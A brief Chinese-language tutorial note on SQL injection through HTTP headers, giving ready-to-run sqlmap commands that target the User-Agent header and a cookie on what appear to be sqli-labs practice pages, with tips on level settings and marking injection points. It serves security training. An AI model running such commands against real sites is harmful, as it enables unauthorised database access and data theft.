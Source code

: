 



**有的网站可能会搜集用户的浏览器信息：**

### 请求头注入：

```
ip地址，user-agent（浏览器信息）,referer（来路）,cookie

sqlmap -u http://sqlilabs.njhack.xyz/Less-18/ --user-agent="Mozilla/5.0 (Windows NT 6.1; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0*" --level 4 --dbs --threads 10 --batch --technique E

# 在使用请求头注入的时候，--level必须大于3

# *号标哪，就是让sqlmap打哪


sqlmap -u http://sqlilabs.njhack.xyz/Less-20/ --cookie="uname = admin*;__cfduid=dab97c3dd6a54c5ca485d3e880af5ce271605180690" --level 4 --dbs --threads 10 --batch --technique E

# cookie=？【用purbsuite抓包得到】
# *号标哪，就是让sqlmap打哪
```





